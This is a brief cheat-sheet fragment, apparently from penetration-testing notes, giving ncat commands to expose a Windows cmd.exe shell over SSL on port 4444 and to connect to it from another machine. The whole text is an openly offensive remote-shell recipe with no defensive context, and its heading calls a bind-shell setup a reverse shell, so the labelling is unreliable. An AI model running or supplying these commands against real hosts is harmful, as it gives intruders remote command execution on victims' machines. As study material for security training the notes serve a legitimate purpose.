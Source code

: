 ## Establish the variable

```bash
export ip=192.168.1.100
```

### Reverse shell from windows using cmd.exe using ssl
```bash
ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl
```

### Listen on port 4444 using ssl
```bash
ncat -v $ip 4444 --ssl
```
